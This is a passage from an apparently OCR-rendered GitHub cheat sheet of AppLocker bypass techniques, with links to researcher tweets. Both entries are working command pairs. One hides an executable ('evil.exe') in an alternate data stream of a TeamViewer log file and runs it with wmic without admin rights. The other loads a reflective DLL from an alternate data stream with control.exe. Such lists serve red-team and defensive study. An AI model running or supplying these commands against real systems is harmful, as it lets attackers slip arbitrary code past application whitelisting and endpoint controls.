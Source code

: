 Notes:
Requires PowerShell version 2

* Links:
  * https://twitter.com/bohops/status/948548812561436672
   
   
   
## Incorrect permissions on files in folders

```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"

wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'
```

* Requires admin: No  
* Windows binary: Yes  
* Bypasses AppLocker Default rules: Yes

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes:


* Links:
  * https://twitter.com/Oddvarmoe/status/951757732557852673
   
   
   
## Control.exe -Loading DLL/CPL binary from Alternate data stream

```
type notepad_reflective_x64.dll > c:\windows\tasks\zzz:notepad_reflective_x64.dll
control.exe c:\windows\tasks\zzz:notepad_reflective_x64.dll
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT   

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7
